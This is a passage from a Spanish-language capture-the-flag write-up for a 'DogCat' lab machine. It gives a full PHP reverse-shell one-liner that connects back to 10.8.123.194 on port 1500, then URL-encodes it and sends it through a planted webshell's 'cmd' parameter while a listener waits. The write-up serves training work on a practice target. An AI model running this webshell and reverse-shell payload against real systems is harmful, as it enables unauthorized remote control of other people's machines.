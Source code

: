 Ahora comprobaremos si el sistema objetivo tiene el archivo binario ejecutable php con el fin de ejecutar un comando, que me genere una reverse Shell.

![](/assets/images/DogCat/image047.png)

Podemos observar la ruta del archivo binario ejecutable php. Por lo tanto, si lo tiene instalado el sistema objetivo.

Ahora ingresaremos el comando php -r '$sock=fsockopen("10.8.123.194",1500);shell_exec("bash <&3 >&3 2>&3");' como valor en el parámetro GET cmd de nuestra webshell , que nos debería generar una reverse Shel, pero antes lo codificaremos utilizando la codificación URL mediante el módulo Decoder de Burp Suite para que nuestro comando este en un formato compatible a la URL.

![](/assets/images/DogCat/image049.png)

Además, antes de ingresar el comando codificado en la URL, debemos habilitar el puerto 1500 para que este en escucha esperando la conexión entrante generada por el comando anterior.

![](/assets/images/DogCat/image051.png)

Ahora si ingresaremos el comando codificado como valor en el parametro GET cmd.
